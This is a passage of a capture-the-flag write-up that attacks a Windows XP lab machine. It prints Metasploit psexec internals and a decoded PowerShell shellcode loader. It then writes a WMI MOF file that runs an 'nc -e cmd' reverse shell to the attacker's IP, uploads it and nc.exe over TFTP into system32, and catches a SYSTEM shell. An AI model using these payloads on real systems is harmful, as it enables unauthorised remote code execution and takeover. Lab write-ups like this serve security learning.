      return false
    end
    files.each do |file|
      begin
        print_status("checking if the file is unlocked")
        fd = smb_open(file, 'rwo')
        fd.close
      rescue Rex::Proto::SMB::Exceptions::ErrorCode => accesserror
        print_status("Unable to get handle: #{accesserror}")
        return false
      end
      simple.disconnect("\\\\#{r_ip}\\#{smb_share}")
    end
    return true
  end

  def cleanup_after(*files, smb_share, r_ip)
    begin
      simple.connect("\\\\#{r_ip}\\#{smb_share}")
    rescue Rex::Proto::SMB::Exceptions::ErrorCode => accesserror
      print_error("Unable to connect for cleanup: #{accesserror}. Maybe you'll need to manually remove #{files.join(", "
)} from the target.")
      return
    end
    print_status("Executing cleanup...")
    files.each do |file|
      begin
        smb_file_rm(file)
      rescue Rex::Proto::SMB::Exceptions::ErrorCode => cleanuperror
        print_error("Unable to cleanup #{file}. Error: #{cleanuperror}")
      end
    end
    left = files.collect{ |f| smb_file_exist?(f) }
    if left.any?
      print_error("Unable to cleanup. Maybe you'll need to manually remove #{left.join(", ")} from the target.")
    else
      print_good("Cleanup was successful")
    end
  end
end
end
```

```ruby
command = cmd_psh_payload(payload.encoded, payload_instance.arch.first)
```

```sh
root@kali:~/dropzone# msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v4.17.23-dev                         ]
+ -- --=[ 1824 exploits - 1033 auxiliary - 316 post       ]
+ -- --=[ 540 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search psexec

Matching Modules
================

   Name                                         Disclosure Date  Rank       Check  Description
   ----                                         ---------------  ----       -----  -----------
   auxiliary/admin/smb/ms17_010_command         2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   auxiliary/admin/smb/psexec_command                            normal     Yes    Microsoft Windows Authenticated Administration Utility
   auxiliary/admin/smb/psexec_ntdsgrab                           normal     No     PsExec NTDS.dit And SYSTEM Hive Download Utility
   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal     Yes    DCOM Exec
   auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal     Yes    WMI Exec
   auxiliary/scanner/smb/psexec_loggedin_users                   normal     Yes    Microsoft Windows Authenticated Logged In Users Enumeration
   encoder/x86/service                                           manual     No     Register Service
   exploit/windows/local/current_user_psexec    1999-01-01       excellent  No     PsExec via Current User Token
   exploit/windows/local/wmi                    1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
   exploit/windows/smb/ms17_010_psexec          2017-03-14       normal     No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   exploit/windows/smb/psexec_psh               1999-01-01       manual     No     Microsoft Windows Authenticated Powershell Command Execution
   exploit/windows/smb/webexec                  2018-10-24       manual     No     WebExec Authenticated User Code Execution


msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > irb
[*] Starting IRB shell...
[*] You are in exploit/windows/smb/psexec

>> cmd_psh_payload("MyPayload","x86")
=> "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c \"if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\\syswow64\\WindowsPowerShell\\v1.0\\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object IO.StreamReader(New-Object IO.Compression.GzipStream((New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sIAMM+5FsCA7VWbWvbSBD+nED+w1IEWoEinLiUI1A4v9RNoHbdKm2auuZYSyN7k9Wuu7tyo/b6329WL4l7da5J4YzBq9l5feaZkbNCJpYrSfTZHz3y7WB/b8o0ywn1kuFpSLxltzsK9vZQ7tnTo+MNeU7orLdeD1XOuJyfnAwKrUHa+jl6CbZnDOQLwcHQgPxNLlag4fD14goSS74R76/opVALJhq1csCSFZDDnkzd3SuVMJdOFK8Ft9T/9MkPZodH8+jF54IJQ/24NBbyKBXCD8j3wAU8L9dA/TFPtDIqs9EFl93j6J00LIMJetvAGOxKpcYPsAz8arCFlqQuyHmo76mPx6lWSS9NNRjjh2TmfM/m8z/prAn8tpCW5xCdSQtarWPQG56AiU6ZTAW8hWyOVrHVXC7nQYBqG3UN1JOFECF5jBs6gS8tbA81ottGqDW1OgixlbsKHau0EFCb+jsydf0P8NNyALH7frB/sJ+1hJFXub3ZZgye9mbVGTA/OlWGV4rPSSckYwzErNIlPnrnuoBgfosu8dLL/jK83/6oVUbVq8sFSmbvFU/naNG01Mvy0jr5/dQcQsYlDEvJcp607KO7YIZMQFVj1KpNMCfqNxeQDkHAklmHm+v2T2Yvcm5vbfsFFynoXoKtMpgVdjH4MZm6FdQ/k2PIEaL6GennZch5aLUbnpdtdPeMSv5AMGNCMi1w6JKQxMAEpCHpScObq15hVXX079IdF8LyhBnbupsHLY5NvIGSxuoiwa5h7efxGhLOhIMiJKc8hX4Z82Ub198JxIAJgZOAnjbYCJQ4AGLruKAxxarvQRSDPcvXAnLUqaZ/JNgSZ73he0UetoTU/3eGLZ1r7josWhC28sMGx0LZkLzn2uIScbgiiX4v+tb2qPIYaGg6QdsBmfVL61jt5doRsgGlgkBbLH+kVd5nBp49rdcEfXL+Qby5/CDM4nh0/cRFwTBeNvza3bK/b/bHTJsVE+gXZ7pt5UjpUTOmU8WdBaXVfr8GLUHgdsT92eLRE0Ilbk3UA407qt4cbpG9w2P3eOcpILeKwd36aEUnJx8xTcQ419ErkEu7Cjs33U4HN0Hn5mkHi3x4YQO1Lik6Ct0eqXCp/YrKb+Aw91YfN8Xk/4WrafUKf9JfwnUn+4/bB0HYCeuSfxL/KHgUoo+u/YJxi5ox0lVAvS3vgaAhx9YLpWoNdj9rPu5PwevCHk7wRXOw/w918keLgAgAAA==''))),[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);\""
>>
```

```sh
root@kali:~/dropzone# cat payload.encoded
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c \"if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\\syswow64\\WindowsPowerShell\\v1.0\\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object IO.StreamReader(New-Object IO.Compression.GzipStream((New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sIAMM+5FsCA7VWbWvbSBD+nED+w1IEWoEinLiUI1A4v9RNoHbdKm2auuZYSyN7k9Wuu7tyo/b6329WL4l7da5J4YzBq9l5feaZkbNCJpYrSfTZHz3y7WB/b8o0ywn1kuFpSLxltzsK9vZQ7tnTo+MNeU7orLdeD1XOuJyfnAwKrUHa+jl6CbZnDOQLwcHQgPxNLlag4fD14goSS74R76/opVALJhq1csCSFZDDnkzd3SuVMJdOFK8Ft9T/9MkPZodH8+jF54IJQ/24NBbyKBXCD8j3wAU8L9dA/TFPtDIqs9EFl93j6J00LIMJetvAGOxKpcYPsAz8arCFlqQuyHmo76mPx6lWSS9NNRjjh2TmfM/m8z/prAn8tpCW5xCdSQtarWPQG56AiU6ZTAW8hWyOVrHVXC7nQYBqG3UN1JOFECF5jBs6gS8tbA81ottGqDW1OgixlbsKHau0EFCb+jsydf0P8NNyALH7frB/sJ+1hJFXub3ZZgye9mbVGTA/OlWGV4rPSSckYwzErNIlPnrnuoBgfosu8dLL/jK83/6oVUbVq8sFSmbvFU/naNG01Mvy0jr5/dQcQsYlDEvJcp607KO7YIZMQFVj1KpNMCfqNxeQDkHAklmHm+v2T2Yvcm5vbfsFFynoXoKtMpgVdjH4MZm6FdQ/k2PIEaL6GennZch5aLUbnpdtdPeMSv5AMGNCMi1w6JKQxMAEpCHpScObq15hVXX079IdF8LyhBnbupsHLY5NvIGSxuoiwa5h7efxGhLOhIMiJKc8hX4Z82Ub198JxIAJgZOAnjbYCJQ4AGLruKAxxarvQRSDPcvXAnLUqaZ/JNgSZ73he0UetoTU/3eGLZ1r7josWhC28sMGx0LZkLzn2uIScbgiiX4v+tb2qPIYaGg6QdsBmfVL61jt5doRsgGlgkBbLH+kVd5nBp49rdcEfXL+Qby5/CDM4nh0/cRFwTBeNvza3bK/b/bHTJsVE+gXZ7pt5UjpUTOmU8WdBaXVfr8GLUHgdsT92eLRE0Ilbk3UA407qt4cbpG9w2P3eOcpILeKwd36aEUnJx8xTcQ419ErkEu7Cjs33U4HN0Hn5mkHi3x4YQO1Lik6Ct0eqXCp/YrKb+Aw91YfN8Xk/4WrafUKf9JfwnUn+4/bB0HYCeuSfxL/KHgUoo+u/YJxi5ox0lVAvS3vgaAhx9YLpWoNdj9rPu5PwevCHk7wRXOw/w918keLgAgAAA==''))),[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);\"
root@kali:~/dropzone#
root@kali:~/dropzone# file payload.encoded
payload.encoded: ASCII text, with very long lines
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# echo -n H4sIAMM+5FsCA7VWbWvbSBD+nED+w1IEWoEinLiUI1A4v9RNoHbdKm2auuZYSyN7k9Wuu7tyo/b6329WL4l7da5J4YzBq9l5feaZkbNCJpYrSfTZHz3y7WB/b8o0ywn1kuFpSLxltzsK9vZQ7tnTo+MNeU7orLdeD1XOuJyfnAwKrUHa+jl6CbZnDOQLwcHQgPxNLlag4fD14goSS74R76/opVALJhq1csCSFZDDnkzd3SuVMJdOFK8Ft9T/9MkPZodH8+jF54IJQ/24NBbyKBXCD8j3wAU8L9dA/TFPtDIqs9EFl93j6J00LIMJetvAGOxKpcYPsAz8arCFlqQuyHmo76mPx6lWSS9NNRjjh2TmfM/m8z/prAn8tpCW5xCdSQtarWPQG56AiU6ZTAW8hWyOVrHVXC7nQYBqG3UN1JOFECF5jBs6gS8tbA81ottGqDW1OgixlbsKHau0EFCb+jsydf0P8NNyALH7frB/sJ+1hJFXub3ZZgye9mbVGTA/OlWGV4rPSSckYwzErNIlPnrnuoBgfosu8dLL/jK83/6oVUbVq8sFSmbvFU/naNG01Mvy0jr5/dQcQsYlDEvJcp607KO7YIZMQFVj1KpNMCfqNxeQDkHAklmHm+v2T2Yvcm5vbfsFFynoXoKtMpgVdjH4MZm6FdQ/k2PIEaL6GennZch5aLUbnpdtdPeMSv5AMGNCMi1w6JKQxMAEpCHpScObq15hVXX079IdF8LyhBnbupsHLY5NvIGSxuoiwa5h7efxGhLOhIMiJKc8hX4Z82Ub198JxIAJgZOAnjbYCJQ4AGLruKAxxarvQRSDPcvXAnLUqaZ/JNgSZ73he0UetoTU/3eGLZ1r7josWhC28sMGx0LZkLzn2uIScbgiiX4v+tb2qPIYaGg6QdsBmfVL61jt5doRsgGlgkBbLH+kVd5nBp49rdcEfXL+Qby5/CDM4nh0/cRFwTBeNvza3bK/b/bHTJsVE+gXZ7pt5UjpUTOmU8WdBaXVfr8GLUHgdsT92eLRE0Ilbk3UA407qt4cbpG9w2P3eOcpILeKwd36aEUnJx8xTcQ419ErkEu7Cjs33U4HN0Hn5mkHi3x4YQO1Lik6Ct0eqXCp/YrKb+Aw91YfN8Xk/4WrafUKf9JfwnUn+4/bB0HYCeuSfxL/KHgUoo+u/YJxi5ox0lVAvS3vgaAhx9YLpWoNdj9rPu5PwevCHk7wRXOw/w918keLgAgAAA== | base64 -d > payload.z
root@kali:~/dropzone#
root@kali:~/dropzone# file payload.z
payload.z: gzip compressed data, last modified: Thu Nov  8 13:48:51 2018, max compression, from Unix, original size 2176
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# zcat payload.z
function rI8A {
	Param ($cDH, $g33F)
	$tH12v = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

	return $tH12v.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($tH12v.GetMethod('GetModuleHandle')).Invoke($null, @($cDH)))), $g33F))
}

function njmtx {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $dYBg,
		[Parameter(Position = 1)] [Type] $jYb = [Void]
	)

	$fmyt = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$fmyt.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $dYBg).SetImplementationFlags('Runtime, Managed')
	$fmyt.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $jYb, $dYBg).SetImplementationFlags('Runtime, Managed')

	return $fmyt.CreateType()
}

[Byte[]]$mr = [System.Convert]::FromBase64String("TXlQYXlsb2Fk")

$fDz3 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((rI8A kernel32.dll VirtualAlloc), (njmtx @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $mr.Length,0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($mr, 0, $fDz3, $mr.length)

$hZvuN = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((rI8A kernel32.dll CreateThread), (njmtx @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$fDz3,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((rI8A kernel32.dll WaitForSingleObject), (njmtx @([IntPtr], [Int32]))).Invoke($hZvuN,0xffffffff) | Out-Null
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# echo -n TXlQYXlsb2Fk | base64 -d
MyPayload
root@kali:~/dropzone#
```

###### Target MOF of psexec

```sh
root@kali:~/dropzone# locate psexec | grep metasploit
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/ms17_010_psexec.md
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/psexec.md
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec_ms17_010.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_command.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_ntdsgrab.rb
/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/psexec_loggedin_users.rb
/usr/share/metasploit-framework/modules/exploits/windows/local/current_user_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec_psh.rb
/usr/share/metasploit-framework/tools/exploit/psexec.rb
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nano /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
```



```
Target -> MOF Upload
mof_upload(datastore['SHARE'])
```

```sh
root@kali:~/dropzone# locate psexec | grep metasploit | xargs grep mof_upload
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb:  def mof_upload(smb_share)
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb:      mof_upload(datastore['SHARE'])
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb:      mof_upload(datastore['SHARE'])
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nano /usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb
```



```
mof = generate_mof(mofname, filename)
```

```sh
root@kali:~/dropzone# msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v4.17.23-dev                         ]
+ -- --=[ 1824 exploits - 1033 auxiliary - 316 post       ]
+ -- --=[ 540 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOST                                  yes       The target address
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/smb/psexec) > irb
[*] Starting IRB shell...
[*] You are in exploit/windows/smb/psexec

>> generate_mof("MyPayload","SomeMorePayload")
=> "#pragma namespace(\"\\\\\\\\.\\\\root\\\\cimv2\")\nclass MyClass46610\n{\n  \t[key] string Name;\n};\nclass ActiveScriptEventConsumer : __EventConsumer\n{\n \t[key] string Name;\n  \t[not_null] string ScriptingEngine;\n  \tstring ScriptFileName;\n  \t[template] string ScriptText;\n  uint32 KillTimeout;\n};\ninstance of __Win32Provider as $P\n{\n    Name  = \"ActiveScriptEventConsumer\";\n    CLSID = \"{266c72e7-62e8-11d1-ad89-00c04fd8fdff}\";\n    PerUserInitialization = TRUE;\n};\ninstance of __EventConsumerProviderRegistration\n{\n  Provider = $P;\n  ConsumerClassNames = {\"ActiveScriptEventConsumer\"};\n};\nInstance of ActiveScriptEventConsumer as $cons\n{\n  Name = \"ASEC\";\n  ScriptingEngine = \"JScript\";\n  ScriptText = \"\\ntry {var s = new ActiveXObject(\\\"Wscript.Shell\\\");\\ns.Run(\\\"SomeMorePayload\\\");} catch (err) {};\\nsv = GetObject(\\\"winmgmts:root\\\\\\\\cimv2\\\");try {sv.Delete(\\\"MyClass46610\\\");} catch (err) {};try {sv.Delete(\\\"__EventFilter.Name='instfilt'\\\");} catch (err) {};try {sv.Delete(\\\"ActiveScriptEventConsumer.Name='ASEC'\\\");} catch(err) {};\";\n\n};\nInstance of ActiveScriptEventConsumer as $cons2\n{\n  Name = \"qndASEC\";\n  ScriptingEngine = \"JScript\";\n  ScriptText = \"\\nvar objfs = new ActiveXObject(\\\"Scripting.FileSystemObject\\\");\\ntry {var f1 = objfs.GetFile(\\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\MyPayload\\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\\"SomeMorePayload\\\");\\nf2.Delete(true);\\nvar s = GetObject(\\\"winmgmts:root\\\\\\\\cimv2\\\");s.Delete(\\\"__EventFilter.Name='qndfilt'\\\");s.Delete(\\\"ActiveScriptEventConsumer.Name='qndASEC'\\\");\\n} catch(err) {};\";\n};\ninstance of __EventFilter as $Filt\n{\n  Name = \"instfilt\";\n  Query = \"SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\\"MyClass46610\\\"\";\n  QueryLanguage = \"WQL\";\n};\ninstance of __EventFilter as $Filt2\n{\n  Name = \"qndfilt\";\n  Query = \"SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\\"Win32_Process\\\" AND TargetInstance.Name = \\\"SomeMorePayload\\\"\";\n  QueryLanguage = \"WQL\";\n\n};\ninstance of __FilterToConsumerBinding as $bind\n{\n  Consumer = $cons;\n  Filter = $Filt;\n};\ninstance of __FilterToConsumerBinding as $bind2\n{\n  Consumer = $cons2;\n  Filter = $Filt2;\n};\ninstance of MyClass46610 as $MyClass\n{\n  Name = \"ClassConsumer\";\n};\n"
>> puts generate_mof("MyPayload","SomeMorePayload")
#pragma namespace("\\\\.\\root\\cimv2")
class MyClass5272
{
  	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
 	[key] string Name;
  	[not_null] string ScriptingEngine;
  	string ScriptFileName;
  	[template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"SomeMorePayload\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass5272\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";

};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\MyPayload\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"SomeMorePayload\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass5272\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"SomeMorePayload\"";
  QueryLanguage = "WQL";

};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass5272 as $MyClass
{
  Name = "ClassConsumer";
};
=> nil
>>
```

`initial.mof`

```ruby
#pragma namespace("\\\\.\\root\\cimv2")
class MyClass5272
{
  	[key] string Name;
};

class ActiveScriptEventConsumer : __EventConsumer
{
 	[key] string Name;
  	[not_null] string ScriptingEngine;
  	string ScriptFileName;
  	[template] string ScriptText;
  uint32 KillTimeout;
};

instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};

instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};

Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"nc -e cmd 10.10.14.8 9001\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass5272\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";

};

instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass5272\"";
  QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};

instance of MyClass5272 as $MyClass
{
  Name = "ClassConsumer";
};
```

```sh
root@kali:~/dropzone# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
root@kali:~/dropzone#
root@kali:~/dropzone# cp /usr/share/windows-binaries/nc.exe .
root@kali:~/dropzone#
root@kali:~/dropzone# file nc.exe
nc.exe: PE32 executable (console) Intel 80386, for MS Windows
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
root@kali:~/dropzone#
root@kali:~/dropzone# cp /usr/share/windows-binaries/nc.exe .
root@kali:~/dropzone#
root@kali:~/dropzone# file nc.exe
nc.exe: PE32 executable (console) Intel 80386, for MS Windows
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# tftp 10.10.10.90
tftp> mode binary
tftp> put nc.exe /windows/system32/nc.exe
Sent 59392 bytes in 21.6 seconds
tftp> put initial.mof /windows/system32/wbem/mof/exp.mof
Sent 1383 bytes in 0.7 seconds
tftp>
```

```sh
root@kali:~/dropzone# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.90.
Ncat: Connection from 10.10.10.90:1981.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd \
cd \

C:\>cd Docume~1
cd Docume~1

C:\DOCUME~1>cd Administrator
cd Administrator

C:\DOCUME~1\Administrator>cd Desktop
cd Desktop

C:\DOCUME~1\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CF6-55F6

 Directory of C:\DOCUME~1\Administrator\Desktop

10/05/2018  09:10 ��    <DIR>          .
10/05/2018  09:10 ��    <DIR>          ..
10/05/2018  09:10 ��    <DIR>          flags
10/05/2018  09:12 ��                31 root.txt
               1 File(s)             31 bytes
               3 Dir(s)   7.194.005.504 bytes free

C:\DOCUME~1\Administrator\Desktop>type root.txt
type root.txt
It's easy, but not THAT easy...
C:\DOCUME~1\Administrator\Desktop>cd flags
cd flags

C:\DOCUME~1\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CF6-55F6

 Directory of C:\DOCUME~1\Administrator\Desktop\flags

10/05/2018  09:10 ��    <DIR>          .
10/05/2018  09:10 ��    <DIR>          ..
10/05/2018  09:09 ��                76 2 for the price of 1!.txt
               1 File(s)             76 bytes
               2 Dir(s)   7.194.005.504 bytes free

C:\DOCUME~1\Administrator\Desktop\flags>type "2 for the price of 1!.txt"
type "2 for the price of 1!.txt"
For limited time only!

Keep an eye on our ADS for new offers & discounts!
C:\DOCUME~1\Administrator\Desktop\flags>
```

###### Get flag using ADS



```sh
root@kali:~/dropzone# tftp 10.10.10.90
tftp> mode binary
tftp> put streams.exe /windows/system32/streams.exe
Sent 135840 bytes in 59.7 seconds
tftp> put initial.mof /windows/system32/wbem/mof/file.mof
